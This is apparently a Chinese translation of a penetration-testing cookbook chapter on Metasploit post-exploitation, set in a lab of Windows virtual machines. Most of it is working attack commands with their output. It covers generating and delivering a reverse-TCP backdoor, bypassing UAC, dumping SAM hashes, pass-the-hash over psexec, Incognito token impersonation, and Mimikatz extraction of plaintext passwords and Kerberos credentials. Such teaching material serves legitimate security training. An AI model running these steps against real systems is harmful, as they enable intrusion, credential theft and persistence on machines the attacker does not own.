










## 14 后利用

在本章中，我们将介绍以下教程：

- 后利用模块
- 权限提升和进程迁移
- 绕过 UAC
- 转储 SAM 数据库的内容
- 通过哈希传递
- 使用 Meterpreter 进行 Incognito 攻击
- 使用 Mimikatz
- 使用后门设置持久性
- 成为 TrustedInstaller
- 后门 Windows 二进制文件
- 使用 Meterpreter 进行枢轴
- 使用 Meterpreter 进行端口转发
- 凭据收集
- 枚举模块
- Autoroute 和 socks 代理服务器
- 分析现有的后利用模块
- 编写后利用模块

## 简介

Metasploit 拥有超过三百个后利用模块，是渗透测试的最佳框架之一，涵盖从信息收集到后利用，甚至专业版中的报告等各个阶段。

现在您已经学会如何利用远程目标，本章将重点介绍权限提升、持久性、获取凭据和横向移动。

## 后利用模块

在 Metasploit Framework 演进之后，Meterpreter 脚本被弃用并被后利用模块取代，后者提供了一种更稳定、更灵活的方式来自动化后利用任务，而 Meterpreter 脚本原本用于自动化后利用任务。

## 准备工作

由于我们将重点关注后利用，本章中的每个教程都将从远程 Meterpreter 会话开始。

为了简化获取远程会话的任务，您可以在 msfconsole 中使用 make rc 命令创建一个资源文件，该文件将自动化目标机器的利用。

例如，以下是资源文件：

```
root@kali:~# cat psexec.rc
use exploit/windows/smb/psexec
set RHOST 192.168.216.10
set SMBUSER Administrator
set SMBPASS vagrant
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.216.5
exploit
```

通过使用 -r 选项启动 msfconsole，后跟资源文件的路径，我们可以毫不费力地获取远程会话：

```
root@kali:~# msfconsole -qr psexec.rc
...
[*] Sending stage (205379 bytes) to 192.168.216.10
[*] Meterpreter session 1 opened (192.168.216.5:4444 -> 192.168.216.10:49327) at 2017-11-25 05:38:46 -0500

meterpreter >
```

## 如何操作...

- 1. 要开始使用后利用模块，首先需要在目标系统上获取会话。为此，您可以使用资源文件或手动利用漏洞以获取 Meterpreter 会话。然后，我们将使用 `background` 命令返回到 `msfconsole`，在那里我们可以开始探索可用的后利用模块：

```
meterpreter > background
[*] Backgrounding session 1...
msf exploit(psexec) >
```

- 2. 查看 Metasploit 结构，我们可以看到针对不同目标系统可用的后利用模块：

```
root@kali:~# ls /usr/share/metasploit-framework/modules/post
aix android cisco firefox hardware linux multi osx
solaris windows
```

- 3. 这些利用模块按执行的任务进行分类：

```
root@kali:~# ls /usr/share/metasploit-framework/modules/post/windows/
capture escalate gather manage recon wlan
```

- 4. 在 msfconsole 中，要列出所有可用的后利用模块，我们可以输入 `use` 命令，后跟单词 `post`，然后按两次 Tab 键并输入 y 以显示所有可能性：




## 如何工作...

现在，让我们使用一个简单的后渗透模块，看看它是如何工作的。

- 1. 我们将首先使用 Windows Gather 虚拟环境检测 后渗透收集模块 来确定目标是否在虚拟环境中运行，如果是，则检测其运行的超visor类型：

```
msf exploit(psexec) > use post/windows/gather/checkvm
msf post(checkvm) > show options
```

模块选项 (post/windows/gather/checkvm):

| 名称 | 当前设置 | 必需 | 描述 |
| ---- | --------------- | -------- | ----------- |
| SESSION |  | yes | 在该模块上运行的会话。 |

- 2. 在运行模块之前，我们应始终检查可用选项，不仅为了验证必需选项，还为了根据目标或需求自定义选项。或者，在使用简单模块时，我们可以简单地使用 show missing 命令来显示缺失的选项：

```
msf post(checkvm) > show missing
```

模块选项 (post/windows/gather/checkvm):

| 名称 | 当前设置 | 必需 | 描述 |
| ---- | --------------- | -------- | ----------- |
| SESSION |  | yes | 在该模块上运行的会话。 |

- 3. 通过运行该模块，我们可以看到它能够确定目标正在虚拟机上运行，并检测到超visor为 VMware：

```
msf post(checkvm) > set SESSION 1
SESSION => 1
msf post(checkvm) > run

[*] Checking if VAGRANT-2008R2 is a Virtual Machine
....
[+] This is a VMware Virtual Machine
[*] Post module execution completed
msf post(checkvm) > Privilege escalation and process migration
```

在本教程中，我们将重点介绍 Meterpreter 的两个非常有用的命令。第一个用于权限提升。该命令用于提升目标系统上的权限/授权。我们可能以权限较低的用户身份入侵系统以执行任务，因此我们可以将权限提升到系统管理员，以便在不中断的情况下执行我们的任务。第二个命令用于进程迁移。该命令用于在不写入磁盘的情况下从一个进程迁移到另一个进程。

## 如何操作...

要提升我们的权限，Meterpreter 为我们提供了 getsystem 命令。该命令会自动寻找各种可能的技术，通过这些技术可以将用户权限提升到更高级别。让我们分析 getsystem 命令使用的不同技术：

```
meterpreter > getsystem -h
Usage: getsystem [options]

Attempt to elevate your privilege to that of local system.

OPTIONS:

    -h      Help Banner.
    -t <opt> The technique to use. (Default to '0').
            0 : All techniques available
            1 : Named Pipe Impersonation (In Memory /Admin)
            2 : Named Pipe Impersonation (Dropper /Admin)
            3 : Token Duplication (In Memory/Admin)
```

## 如何工作...

`getsystem` 命令尝试在目标上提升权限有三种不同的技术。默认值 0 会尝试所有列出的技术，除非成功尝试。让我们快速了解一下这些提升技术。

**named pipe** 是一种机制，使应用程序能够在本地或远程进行进程间通信。创建管道的应用程序称为管道服务器，而连接到管道的应用程序称为管道客户端。**Impersonation** 是线程以与拥有该线程的进程不同的安全上下文执行的能力。模拟使服务器线程能够代表客户端执行操作，但仅限于客户端的安全上下文的限制。当客户端的权限高于服务器时就会出现问题。这种情况会造成一种特权提升攻击，称为 **named pipe impersonation escalation attack。**

现在我们已经了解了 `getsystem` 命令使用的各种提升技术，下一步将是在目标上执行该命令，看看会发生什么。首先，我们将使用 `getuid` 命令检查当前用户 ID，然后使用 `getsystem` 命令尝试提升我们的权限：

```
meterpreter > getuid
Server username: IE11WIN7\IEUser
meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation
(In Memory/Admin)).
meterpreter >
```

正如你所见，以前我们是一个权限较低的用户，在使用 `getsystem` 命令后，我们将权限提升到了系统。

接下来我们要讨论的重要 Meterpreter 命令是 `migrate` 命令。我们在之前的章节中使用过它，但让我们再多谈一点。该命令用于从一个进程上下文迁移到另一个进程上下文，这在当前入侵的进程可能崩溃的情况下会很有帮助。例如，如果我们使用浏览器漏洞渗透系统，浏览器在利用后可能会挂起，用户可能会关闭它。因此，迁移到稳定的系统进程可以帮助我们顺利进行渗透测试。我们可以使用进程名称或 ID 迁移到任何其他活动进程。

ps 命令可用于识别所有活动进程及其名称和 ID。例如，如果 explorer.exe 的 ID 为 2804，我们可以通过执行以下命令迁移到 explorer.exe：

```
meterpreter > migrate 2804
[*] Migrating from 3072 to 2804...
[*] Migration completed successfully.
meterpreter >
```

或者，在使用 AutoRunScript 自动化 Meterpreter 脚本时，我们可以简单地使用进程名称：

```
meterpreter > migrate -N explorer.exe
[*] Migrating from 1232 to 2804...
[*] Migration completed successfully.
meterpreter >
```

这两个 Meterpreter 命令非常方便，在渗透测试期间经常使用。它们的简单性和高生产率使其成为最佳选择。

## 绕过 UAC

Microsoft User Account Control (UAC) 是一个使用强制完整性控制 (MIC) 来隔离具有不同权限的运行进程的组件，旨在提高 Windows 的安全性。它试图通过将应用程序软件限制为标准用户权限并提示管理员增加或提升这些权限来实现这一目标。尽管仍在使用，但 UAC 本质上是损坏的，可以被轻易击败。

有关如何击败 UAC 的更多信息，请参阅可在 https://github.com/hfiref0x/UACME 获取的 UACMe 项目。

## 准备工作

对于本教程，我们将针对 Windows 7 机器。为此，我们需要将虚拟机的网络配置更改为 NAT，以便我们可以从 Kali Linux 机器访问目标。

然后，为了破坏目标，我们将创建一个简单的后门，将其复制到目标以获取 Meterpreter 会话。

- 1. 要生成后门，我们将使用 Windows Meterpreter 反向 TCP 有效载荷和 `msfconsole` 内的 `generate` 命令来生成我们的有效载荷。在使用 `generate` 命令之前，让我们先使用 `-h` 查看可用选项：

```
msf > use payload/windows/meterpreter/reverse_tcp
msf payload(reverse_tcp) > set LHOST 192.168.216.5
LHOST => 192.168.216.5
msf payload(reverse_tcp) > generate -h
Usage: generate [options]

Generates a payload.

OPTIONS:
```
- -E 强制编码。
- -b <opt> 避免的字符列表：
- '\x00\xff'
- -e <opt> 要使用的编码器模块名称。
- -f <opt> 输出文件名（否则为 stdout）
- -h 帮助横幅。
- -i <opt> 编码迭代次数。
- -k 保持模板可执行文件功能正常。
- -o <opt> VAR=VAL 格式的逗号分隔选项列表。
- -p <opt> 输出的平台。
- -s <opt> NOP sled 长度。
- -t <opt> 输出格式：

```
msf payload(reverse_tcp) >
```
- 2. 在使用 LHOST 选项设置监听地址并查看 `generate` 命令的可用选项后，我们将使用 -t 选项指定输出格式，在本例中为 exe，然后使用 -f 选项指定输出文件名：

```
msf payload(reverse_tcp) > generate -t exe -f backdoor.exe
[*] Writing 73802 bytes to backdoor.exe...
msf payload(reverse_tcp) >
```


3. 现在我们已经创建了后门，需要设置一个监听器来接收反向 Shell。为此，我们将使用通用 Payload 处理程序 exploit 模块：

```
msf payload(reverse_tcp) > use exploit/multi/handler
msf exploit(handler) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf exploit(handler) > set LHOST 192.168.216.5
LHOST => 192.168.216.5
msf exploit(handler) > run -j
[*] Exploit running as background job 0.

[*] Started reverse TCP handler on 192.168.216.5:4444
msf exploit(handler) >
```

4. 通过使用 run -j 启动监听器，它将在作业的上下文中运行，从而允许我们继续使用 msfconsole。要将后门复制到目标，我们可以使用 FTP 文件服务器辅助模块：

```
msf exploit(handler) > use auxiliary/server/ftp
msf auxiliary(ftp) > set FTPROOT /root
FTPROOT => /root
msf auxiliary(ftp) > set FTPUSER Hacker
FTPUSER => Hacker
msf auxiliary(ftp) > set FTPPASS
set FTPPASS
msf auxiliary(ftp) > set FTPPASS S1mpl3P4ss
FTPPASS => S1mpl3P4ss
msf auxiliary(ftp) > run -j
[*] Auxiliary module running as background job 2.
msf auxiliary(ftp) >
[*] Server started.

msf auxiliary(ftp) >
```

5. FTP 服务器启动并运行后，我们可以前往 Windows 7 目标机器，下载后门并执行它：



如果一切顺利，我们应该在目标机器上获得一个新的 Meterpreter 会话：

```
msf auxiliary(ftp) >
[*] 192.168.216.137:49168 FTP download request
for backdoor.exe
[*] Sending stage (179267 bytes) to 192.168.216.137
[*] Meterpreter session 1 opened (192.168.216.5:4444 -> 192.168.216.137:49170) at 2017-11-25 09:14:39 -0500
```

```
msf exploit(handler) > sessions -i 1
[*] Starting interaction with 1...
```

```
meterpreter > getuid
Server username: IE11WIN7\IEUser
meterpreter >
```

6. 现在我们在目标机器上有了会话，我们首先想要做的事情之一就是尝试提升我们的权限：

```
meterpreter > getsystem
[-] priv_elevate_getsystem: Operation failed:
Access is denied. The following was attempted:
[-] Named Pipe Impersonation (In Memory/Admin)
[-] Named Pipe Impersonation (Dropper/Admin)
[-] Token Duplication (In Memory/Admin)
meterpreter >
```

然而，使用 getsystem 命令进行权限提升会失败，因为 UAC 的原因。

## 如何操作...

在使用 getsystem 执行权限提升攻击之前，我们首先需要绕过 UAC。要列出所有可用于绕过 UAC 的可用 exploit，我们可以使用 search 命令，如下所示：



不详细说明每种利用技术，我们将尝试使用 Windows Escalate UAC Protection Bypass 通过进程注入利用受信任的发布者证书来绕过 Windows UAC。该模块通过进程注入利用受信任的发布者证书来绕过 Windows UAC，并生成一个 UAC 标志关闭的第二个 Shell：

```
meterpreter > background
[*] Backgrounding session 1...
msf exploit(handler) > use exploit/windows/local
/bypassuac
msf exploit(bypassuac) > set SESSION 1
SESSION => 1
msf exploit(bypassuac) > exploit

[*] Started reverse TCP handler on 192.168.216.5:4444
[*] UAC is Enabled, checking level...
[+] UAC is set to Default
[+] BypassUAC can bypass this setting, continuing...
[+] Part of Administrators group! Continuing...
[*] Uploaded the agent to the filesystem....
[*] Uploading the bypass UAC executable to the filesystem...
[*] Meterpreter stager executable 73802 bytes long being uploaded..
[*] Sending stage (179267 bytes) to 192.168.216.137
[*] Meterpreter session 2 opened (192.168.216.5:4444 -> 192.168.216.137:49160) at 2017-11-25 09:27:16 -0500

meterpreter >
```

太好了，我们成功绕过了 UAC，并获得了新的 Meterpreter 会话。正如你所见，绕过 UAC 很简单，这就是为什么你不应依赖 UAC 作为安全机制的原因。

## 转储 SAM 数据库的内容

安全账户管理器（SAM）是 Windows 操作系统中的一个数据库，其中包含用户名和密码；密码以哈希格式存储在注册表 Hive 中，要么是 LM 哈希，要么是 NTLM 哈希。该文件可以在 %SystemRoot%/system32/config/SAM 中找到，并挂载在 HKLM/SAM 上。在本教程中，你将了解从 SAM 数据库转储本地用户账户的一些最常见方法。

## 准备工作

我们将在 Metasploitable 3 目标机器中的 Meterpreter 会话中开始，并以系统权限运行。

## 如何操作...

+   1. 首先，我们将从经典的 Meterpreter hashdump 命令开始：



由于大多数后利用任务都被放在各自的后利用模块中，让我们来看看可用的选项。我们将检查的第一个模块是 Windows Gather Local User Account Password Hashes (Registry) 后利用模块，它将使用注册表从 SAM 数据库转储本地用户账户。

+   2. 要加载 Windows Gather Local User Account Password Hashes (Registry) 后利用模块，我们首先需要将当前的 Meterpreter 会话置于后台，然后使用 use 命令加载模块，设置 session 选项并运行模块：

```
meterpreter > background
[*] Backgrounding session 1...
msf exploit(psexec) > use post/windows/gather/hashdump
msf post(hashdump) > set SESSION 1
SESSION => 1
msf post(hashdump) > run

[*] Obtaining the boot key...
[*] Calculating the hboot key using SYSKEY
42b4df1cc96598ba45ddc5b022825099...
[*] Obtaining the user list and keys...
[*] Decrypting user keys...
[*] Dumping password hints...

No users with password hints on this system

[*] Dumping password hashes...

Administrator:500:aad3b435b51404eea ad3b435b51404ee:e02bc503339d51f71d913c245d35b50b:::
...snip...
kylo_ren:1018:aad3b435b51404eea ad3b435b51404ee:74c0a3dd06613d3240331e94ae18b001:::

[*] Post module execution completed
msf post(hashdump) >
```

3. 接下来，我们将使用 Windows Gather Local and Domain Controller Account Password Hashes。后利用模块将从 SAM 数据库转储本地账户。如果目标是域控制器，它将根据权限级别、操作系统和主机角色使用适当的技术转储域账户数据库：

```
msf post(hashdump) > use post/windows/gather
/smart_hashdump
msf post(smart_hashdump) > set SESSION 1
SESSION => 1
msf post(smart_hashdump) > run

[*] Running module against VAGRANT-2008R2
[*] Hashes will be saved to the database if one
is connected.
[+] Hashes will be saved in loot in JtR password
file format to:
[*] /root/.msf4/loot/
20171125124532_default_192.168.216.10
_windows.hashes_573050.txt
...

Administrator:500:aad3b435b51404eeaad3b435b51404ee:e02bc503339d51f71d913c245d35b50b:::
...snip...
kylo_ren:1018:aad3b435b51404eeaad3b435b51404ee:74c0a3dd06613d3240331e94ae18b001:::
[*] Post module execution completed
```

## 通过哈希传递

通过哈希传递技术允许我们通过直接传递哈希凭据而无需破解它们来对远程服务器或服务进行身份验证。该技术最早于 1997 年由 Paul Ashton 在 Bugtraq 上发布，名为 NT Pass the Hash 的 exploit。

## 如何操作...

要执行通过哈希传递攻击，我们可以使用 Microsoft Windows Authenticated User Code Execution exploit 模块，并使用之前捕获的哈希而不是明文密码：

```
msf > use exploit/windows/smb/psexec
msf exploit(psexec) > set RHOST 192.168.216.10
RHOST => 192.168.216.10
msf exploit(psexec) > set SMBUser Administrator
SMBUser => Administrator
msf exploit(psexec) > set SMBPASS
aad3b435b51404eea ad3b435b51404ee:e02bc503339d51f71d913c245d35b50b
SMBPASS => aad3b435b51404eea ad3b435b51404ee:e02bc503339d51f71d913c245d35b50b
msf exploit(psexec) > exploit
...
[*] Sending stage (179267 bytes) to 192.168.216.10
[*] Meterpreter session 1 opened (192.168.216.5:4444 -> 192.168.216.10:49293) at 2017-11-25 13:06:23 -0500

meterpreter >
```

从输出中可以看到，该模块能够使用管理员用户名和密码哈希来执行任意有效载荷。

## 使用 Meterpreter 进行 Incognito 攻击

Incognito 允许我们冒充用户令牌。它最初首先集成到 Metasploit 中，然后集成到 Meterpreter 中。在本教程中，我们将介绍 Incognito 及其用例。


令牌类似于 Web cookie。它们也类似于临时密钥，允许我们在无需每次都提供身份验证详细信息的情况下进入系统和网络。Incognito 通过在被要求身份验证时重放该临时密钥来利用这一点。
令牌有两种类型：delegate 和 impersonate。delegate 令牌用于交互式登录，而 impersonate 令牌用于非交互式会话。


## 如何操作...

- 1. 在具有系统权限的 Meterpreter 会话中，在使用 Incognito 之前，我们将加载 `incognito` Meterpreter 扩展，然后查看可用的选项：

```
meterpreter > load incognito
Loading extension incognito...Success.
meterpreter > help Incognito

Incognito Commands
==================

Command          Description
-------          -----------
add_group_user   Attempt to add a user
                 to a global group with all tokens
add_localgroup_user Attempt to add a user
                 to a local group with all tokens
add_user         Attempt to add a user
                 with all tokens
impersonate_token Impersonate specified token
list_tokens      List tokens available under
                 current user context
snarf_hashes     Snarf challenge/response
                 hashes for every token

meterpreter >
```

- 2. 首先，我们将使用 `list_tokens` 命令并加上 `-u` 参数来按唯一用户名列出令牌，从而识别目标系统上的有效令牌：

```
meterpreter > list_tokens -u

Delegation Tokens Available
===========================
NT AUTHORITY\IUSR
NT AUTHORITY\LOCAL SERVICE
NT AUTHORITY\NETWORK SERVICE
NT AUTHORITY\SYSTEM
VAGRANT-2008R2\sshd_server
VAGRANT-2008R2\vagrant
```

### 可用的冒充令牌

```
====================
NT AUTHORITY\ANONYMOUS LOGON

meterpreter >
```


要访问所有可用的令牌，必须以系统权限运行。甚至管理员也无法访问所有令牌。因此，为了获得更好的结果，请在使用 incognito 之前尝试提升权限。

- 3. 要冒充可用的令牌并假设其权限，我们将使用 impersonate_token 命令，后跟我们想要冒充的令牌，使用两个反斜杠（这是必需的，因为只有一个斜杠会导致错误）：

```
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > impersonate_token VAGRANT-2008R2\\vagrant
[+] Delegation token available
[+] Successfully impersonated user VAGRANT-2008R2\vagrant
meterpreter > getuid
Server username: VAGRANT-2008R2\vagrant
meterpreter >
```

使用 getuid 命令，我们可以看到我们已成功使用 Incognito 冒充名为 vagrant 的用户

Incognito 证明是我最喜欢的工具之一，因为它允许我们从本地管理员快速提升到域用户甚至域管理员。通过以系统权限入侵域主机，我们可以等待或强制域用户连接到目标机器，然后使用 Incognito 冒充其令牌并假设其权限。

## 使用 Mimikatz

Mimikatz 是由 Benjamin Delpy 编写的 post-exploitation 工具，它捆绑了攻击者执行的多个最有用的任务。Mimikatz 是从 Windows 系统收集凭据数据的最佳工具之一。

### 准备工作

Metasploit 提供了两个版本的 Mimikatz 作为 Meterpreter 扩展：通过加载 mimikatz 扩展的版本 1.0，以及通过加载 kiwi 扩展的新版本 2.x。在本教程中，我们将介绍新版本及其最有用的一些任务。

### 如何操作...

- 1. 在具有系统权限的 Meterpreter 会话中，我们将首先使用 load 命令加载 kiwi 扩展：

```
meterpreter > load kiwi
Loading extension kiwi...

.#####. mimikatz 2.1.1 20170608 (x64/windows)
.## ^ ##. "A La Vie, A L'Amour"
## / \ ## /* * *
## \ / ## Benjamin DELPY `gentilkiwi`
( benjamin@gentilkiwi.com )
'## v ##' http://blog.gentilkiwi.com/mimikatz (oe.eo)
'#####' Ported to Metasploit by OJ Reeves
`TheColonial` * * */

Success.
meterpreter >
```

- 2. 现在我们已加载扩展，我们将使用 help kiwi 命令列出所有可用命令：

```
meterpreter > help kiwi

Kiwi Commands
=============

Command        Description
-------        -----------
creds_all      Retrieve all credentials
               (parsed)
creds_kerberos Retrieve Kerberos creds
               (parsed)
creds_msv      Retrieve LM/NTLM creds
               (parsed)
creds_ssp      Retrieve SSP creds
creds_tspkg    Retrieve TsPkg creds
```

```
creds_wdigest          (parsed)
Retrieve WDigest creds

dcsync                 (parsed)
Retrieve user account
information via

... 
lsa_dump_sam          Dump LSA SAM (unparsed)
lsa_dump_secrets      Dump LSA secrets (unparsed)
password_change       Change the password/hash of
a user
wifi_list             List wifi profiles/creds for
the current user
wifi_list_shared      List shared wifi profiles/creds
                      (requires SYSTEM)
meterpreter >
```

- 3. 我们将首先尝试使用 creds_kerberos 命令从目标机器检索 Kerberos 凭据：

```
meterpreter > creds_kerberos
[+] Running as SYSTEM
[*] Retrieving kerberos credentials
kerberos credentials
======================

Username      Domain          Password
--------      ------          --------
(null)        (null)          (null)
sshd_server   VAGRANT-2008R2  D@rj331ng
vagrant       VAGRANT-2008R2  vagrant
vagrant-2008r2$ WORKGROUP      (null)

meterpreter >
```

- 4. 接下来，我们将使用 creds_msv 命令使用 MSV 身份验证包检索 LM/NTLM 哈希：



Mimikatz 能够成为最有效的攻击工具之一的功能之一是其检索明文密码的能力。用户登录后，凭据会由本地安全机构子系统服务（LSASS）进程存储在内存中。使用 Mimikatz，我们能够检索明文凭据。


从 Windows 8.1 和 Windows Server 2012 R2 开始，明文凭据不再存储在内存中。

- 5. 要检索明文密码，我们可以使用 `creds_wdigest` 命令：

```
meterpreter > creds_wdigest
[+] Running as SYSTEM
[*] Retrieving wdigest credentials
wdigest credentials
===================

Username      Domain        Password
-------      ------        --------
(null)       (null)        (null)
VAGRANT-2008R2$ WORKGROUP    (null)
sshd_server  VAGRANT-2008R2 D@rj331ng
vagrant      VAGRANT-2008R2 vagrant
```

Metasploit 为我们提供了一些内置命令，允许我们使用 Mimikatz 中最常见的功能，但是，如果我们想要完全访问 Mimikatz 中的所有功能，我们可以使用 `kiwi_cmd` 命令。

- 6. 首先，让我们使用 `kiwi_cmd version` 命令检查我们使用的 Mimikatz 版本：

```
meterpreter > kiwi_cmd version

mimikatz 2.1.1 (arch x64)
Windows NT 6.1 build 7601 (arch x64)
m svc 180021005 1
```

- 7. 要列出所有可用模块，我们可以尝试加载一个不存在的模块：

```
meterpreter > kiwi_cmd ::
ERROR mimikatz_doLocal ; "" module not found !

    standard - Standard module
[Basic commands (does not require module name)]
```

```
crypto - Crypto Module
sekurlsa - SekurLSA module
[Some commands to enumerate credentials...]
...

dpapi - DPAPI Module (by API or RAW access)
[Data Protection application programming interface]
sysenv - System Environment Value module
sid - Security Identifiers module
iis - IIS XML Config module
rpc - RPC control of mimikatz
```

- 8. 要查询特定模块的可用选项，我们可以使用以下语法：

```
meterpreter > kiwi_cmd sekurlsa::
ERROR mimikatz_doLocal ; "(null)" command of "sekurlsa" module not found !

Module : sekurlsa
Full name : SekurLSA module
Description : Some commands to enumerate credentials...

msw - Lists LM & NTLM credentials
wdigest - Lists WDigest credentials
kerberos - Lists Kerberos credentials
tspkg - Lists TsPkg credentials
livessp - Lists LiveSSP credentials
ssp - Lists SSP credentials
logonPasswords - Lists all available providers credentials
process - Switch (or reinit) to LSASS process context
minidump - Switch (or reinit) to LSASS minidump context
...
```

- 9. 现在我们知道了想要使用的模块和可用选项，我们可以使用 kiwi_cmd 命令使用 sekurlsa 模块列出提供者的所有可用凭据：

```
meterpreter > kiwi_cmd sekurlsa::logonpasswords

Authentication Id : 0 ; 742172 (00000000:000b531c)
Session          : Interactive from 1
User Name        : vagrant
Domain           : VAGRANT-2008R2
```


```
Logon Server      : VAGRANT-2008R2
Logon Time        : 11/25/2017 10:19:08 AM
SID               : S-1-5-21-653170132-1988196614
                  -1572848168-1000

msv :
  [00000003] Primary
  * Username : vagrant
  * Domain   : VAGRANT-2008R2
  * LM       : 5229b7f52540641daad3b435b51404ee
  * NTLM     : e02bc503339d51f71d913c245d35b50b\
  * SHA1     : c805f88436bcd9ff534ee86c59ed23
                0437505ecf
...
```

## 还有更多...

Golden Tickets and Mimikatz: Using Mimikatz, we can use the password information for the KRBTGT account to create forged Kerberos tickets (TGTs) that can then be used to request TGS tickets for any service on any computer in the domain.

金票和 Mimikatz：使用 Mimikatz，我们可以利用 KRBTGT 账户的密码信息创建伪造的 Kerberos 票据（TGT），然后可用于向域中任何计算机上的任何服务请求 TGS 票据。

